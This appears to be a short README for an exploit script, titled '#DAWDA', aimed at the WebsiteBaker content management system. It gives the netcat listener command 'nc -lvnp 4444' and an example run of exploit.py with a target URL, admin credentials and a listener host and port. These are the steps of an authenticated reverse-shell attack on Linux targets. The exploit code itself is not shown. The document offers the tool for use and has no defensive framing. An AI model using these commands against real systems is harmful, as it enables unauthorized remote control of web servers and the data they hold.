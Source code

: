 #DAWDA

First Start Listener With Netcat : nc -lvnp 4444

Then Use Exploit

Usage: python exploit.py -t TARGET_URL -u USERNAME -p PASSWORD --lhost LISTENER_IP --lport LISTENER_PORT

Example: python exploit.py -t http://192.168.1.104/WebsiteBaker -u admin -p admin --lhost 192.168.1.103 --lport 4444


#Notes:

Authentication is Required to Exploit Vulnerability

Exploit is For Linux Targets!
